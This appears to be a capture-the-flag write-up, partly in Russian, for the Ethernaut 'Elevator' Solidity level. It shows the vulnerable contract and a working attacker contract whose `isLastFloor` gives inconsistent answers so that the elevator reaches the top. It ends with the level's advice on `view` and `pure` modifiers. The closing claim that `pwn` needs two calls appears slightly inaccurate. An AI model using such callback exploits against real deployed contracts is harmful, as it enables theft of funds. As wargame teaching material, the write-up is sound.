![](https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg)

This elevator won't let you reach the top of your building. Right?
##### Things that might help:
- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

Заметим, что создается объект `Building` от адреса `msg.sender`, Что значит, что мы можем сами создать свой сломанный вариант `Building` с нужной функций `isLastFloor`. Она будет работать так: 
Сначала (при первом вызове) возвращать `false`, а потом (при втором вызове) - `true`

вот пример кода: 
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator{
  function top() external returns(bool);
  function floor() external returns (uint);
  function goTo(uint _floor) external;
}

contract PWN {
  address public instance; 
  IElevator public elev;
  bool public flag = false;

  constructor (address _instance) {
    instance = _instance;
    elev = IElevator(instance);
  }

  function pwn() external {
    elev.goTo(1);
  }

  function isLastFloor(uint) external returns (bool) {
    if(!flag) {
      flag = true;
      return false;
    } else {
      flag = false;
      return true;

    }
  }
}

```

тут уже надо просто 2 раза вызвать функцию `pwn`

___
You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.